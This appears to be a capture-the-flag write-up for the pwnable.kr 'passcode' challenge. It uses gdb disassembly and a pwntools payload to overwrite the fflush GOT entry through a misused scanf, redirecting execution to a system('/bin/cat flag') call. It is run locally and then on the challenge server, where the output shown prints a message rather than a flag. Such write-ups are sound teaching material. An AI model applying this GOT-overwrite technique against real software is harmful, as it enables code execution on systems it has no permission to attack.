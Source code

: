 Finding the address of fflush (`0x804a004`):

```
[~/Desktop] 
$ scp -P2222 passcode@pwnable.kr:/home/passcode/passcode ./passcode 
passcode@pwnable.kr's password: 
passcode                                                                                                                   100% 7485    15.0KB/s   00:00    

[~/Desktop] 
$ gdb passcode
...
pwndbg> disass fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:     jmp    DWORD PTR ds:0x804a004
```

```
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
```

We can see system being called at 0x080485ea but we also need the instruction before it to execute.

(The string "/bin/cat flag" starts at 0x80487af)

So we input:

```python
>>> 0x080485e3
134514147
```

```python
from pwn import p32
import sys
payload = b'A'*96 + p32(0x804a004) + b'134514147' 
sys.stdout.buffer.write(payload)
```

```
$ python3 payload.py | ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
/bin/cat: flag: No such file or directory
```

Nice, now for the remote:

```
passcode@pwnable:~$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x04\xa0\x04\x08134514147" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
```
